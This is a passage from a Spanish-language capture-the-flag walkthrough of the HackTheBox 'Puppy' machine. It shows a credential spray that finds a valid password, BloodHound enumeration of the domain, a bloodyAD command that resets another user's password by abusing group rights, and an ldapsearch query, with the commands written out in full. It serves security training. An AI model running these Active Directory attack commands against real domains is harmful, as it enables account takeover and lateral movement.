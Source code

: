 Explicación:

Cada línea prueba una credencial.

STATUS_LOGON_FAILURE indica intento fallido.

La línea con [+] indica login exitoso.

Resultado útil: credenciales válidas encontradas:

ant.edwards / Antman2025!

Explicación: con eso tienes un usuario distinto (ant.edwards) cuya contraseña provino del KDBX; puede tener permisos diferentes y permitir nuevos movimientos dentro de la red.


# 10 - BloodHound Again
[root@kali] /home/kali/Puppy  
❯ bloodhound-python -u 'ant.edwards' -p 'Antman2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 33S
INFO: Compressing output into 20250528135612_bloodhound.zip

https://www.hyhforever.top/posts/2025/05/htb-puppy/images/image-20250528191920356.png

Puedes ver que el grupo al que pertenece Edwards tiene control total sobre Silver, por lo que puedes cambiar la contraseña.

root@kali] /home/kali/Puppy  
❯ bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Abc123456!                       ⏎
[+] Password changed successfully!

Aunque los cambios aquí son exitosos, todavía no puedo iniciar sesión. Descubrí que el motivo es que la cuenta no está habilitada

# 11- Habilitar Cuenta
Compruébelo con ldapsearch
[root@kali] /home/kali/Puppy  
❯ ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"                       ⏎
